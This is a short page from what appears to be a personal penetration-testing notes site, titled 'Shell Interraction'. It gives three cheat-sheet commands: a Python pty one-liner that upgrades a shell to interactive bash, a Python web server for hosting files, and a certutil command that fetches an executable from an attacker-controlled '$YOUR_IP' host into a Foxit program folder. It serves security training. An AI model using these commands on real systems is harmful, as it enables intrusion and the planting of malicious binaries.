  ---
layout: default
title: Shell Interraction
nav_order: 2
has_children: false
parent: Pentesting
grand_parent: xMAD0X Shiny Adventure
---

## Shell Interraction

### Interactive Shell 
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

### Simple Web Server
```bash
sudo python3 -m http.server
```

### File Download
#### Windows CMD
```powershell
certutil -urlcache -f http://$YOUR_IP/Foxit.exe "C:\Program Files (x86)\Foxit Software\Foxit.exe"
```
